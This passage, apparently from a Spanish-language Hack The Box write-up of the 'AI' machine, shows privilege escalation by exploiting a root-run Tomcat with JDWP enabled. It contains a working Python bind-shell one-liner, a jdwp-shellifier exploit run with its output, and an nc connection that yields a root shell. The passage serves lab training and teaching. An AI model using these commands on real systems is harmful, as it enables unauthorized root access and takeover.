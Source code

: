 Si se abre un tunnel ssh con ```ssh -L 8080:localhost:8080 alexa@10.10.10.163``` para cambiar la configuración del browser y ver que servicio está corriendo ahí, se encuentra que es un tomcat:

{{< image src="/images/htb/ai/tomcat-tunnel.png" position="center" style="border-radius: 8px;" >}}

Y, sorpresa! Está corriendo como root y encima con [JDWP](https://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html) habilitado..

```console
root       3875  5.5  5.8 3141684 118248 ?      Sl   21:02   0:05 /usr/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat-9.0.27/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources -Dorg.apache.catalina.security.SecurityListener.UMASK=0027 -agentlib:jdwp=transport=dt_socket,address=localhost:8000,server=y,suspend=n -Dignore.endorsed.dirs= -classpath /opt/apache-tomcat-9.0.27/bin/bootstrap.jar:/opt/apache-tomcat-9.0.27/bin/tomcat-juli.jar -Dcatalina.base=/opt/apache-tomcat-9.0.27 -Dcatalina.home=/opt/apache-tomcat-9.0.27 -Djava.io.tmpdir=/opt/apache-tomcat-9.0.27/temp org.apache.catalina.startup.Bootstrap start
```

Con una búsqueda rápida en google, se encuentra este [exploit](https://www.exploit-db.com/exploits/46501)

Entonces, para usar ese exploit se crea un ```bind.sh``` en ```/tmp``` con el siguiente código:

```python
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```

Osea, se va a levantar un bind shell escuchando en el puerto 2222, se ejecuta el script:

```console
alexa@AI:~$ ./jdwp-shellifier.py -t 127.0.0.1 -p 8000 --break-on 'java.lang.String.indexOf' --cmd /tmp/bind.sh 
[+] Targeting '127.0.0.1:8000'
[+] Reading settings for 'OpenJDK 64-Bit Server VM - 11.0.4'
[+] Found Runtime class: id=650
[+] Found Runtime.getRuntime(): id=7f9080006b60
[+] Created break event id=2
[+] Waiting for an event on 'java.lang.String.indexOf'
[+] Received matching event from thread 0x6ed
[+] Selected payload '/tmp/bind.sh'
[+] Command string object created id:6ee
[+] Runtime.getRuntime() returned context id:0x6ef
[+] found Runtime.exec(): id=7f9080006b98
[+] Runtime.exec() successful, retId=6f0
[!] Command successfully executed
```

Después de eso, si se trata iniciar una conexión contra el servidor con nc a la IP:puerto contra la que se corrió el exploit, se consigue un reverso con root:

```console
root@kali:~/Documents/HTB/boxes/medium/linux/ai# nc -v 10.10.10.163 2222
ai.lnx.htb [10.10.10.163] 2222 (?) open
bash: cannot set terminal process group (6086): Inappropriate ioctl for device
bash: no job control in this shell
root@AI:~# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
